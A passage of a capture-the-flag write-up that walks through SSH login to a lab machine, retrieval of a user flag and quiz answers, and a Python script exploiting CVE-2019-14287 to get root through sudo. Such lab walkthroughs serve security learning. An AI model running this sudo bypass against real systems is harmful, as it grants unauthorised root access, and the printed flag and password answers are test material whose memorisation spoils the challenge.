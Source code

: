 Time to SSH in:

```bash
ssh james@10.10.82.230
```

We’re in.

And right there in James’ home directory — the user flag:

```
b03d975e8c92a7c04146cfa7a5a313c7
```

> Q7: Who is the other agent (in full name)?

> A7: james

> Q8: SSH password

> A8: hackerrules!

> Q9: What is the user flag?

> A9: b03d975e8c92a7c04146cfa7a5a313c7

---

## 🖼️ Step 8: The Alien Photo

One file stood out: `Alien_autospy.jpg`.

I downloaded it for analysis:

```bash
scp james@10.10.82.230:Alien_autospy.jpg .
```

A quick reverse image search confirmed it: the infamous **Roswell alien autopsy**.

> Q10: What is the incident of the photo called?
> A10: Roswell alien autopsy

---

## ⚙️ Step 9: Privilege Escalation – CVE-2019-14287

James had `sudo` rights — and a known vulnerability (CVE-2019-14287) let us exploit it to run commands as root.

Here’s the Python script I used to automate the escalation:

```python
#!/usr/bin/python3
import os

username = input("Enter current username :")
os.system("sudo -l > priv")
os.system("cat priv | grep 'ALL' | cut -d ')' -f 2 > binary")

with open("binary") as binary_file:
    binary = binary_file.read().strip()

print("Lets hope it works")
os.system("sudo -u#-1 " + binary)
```
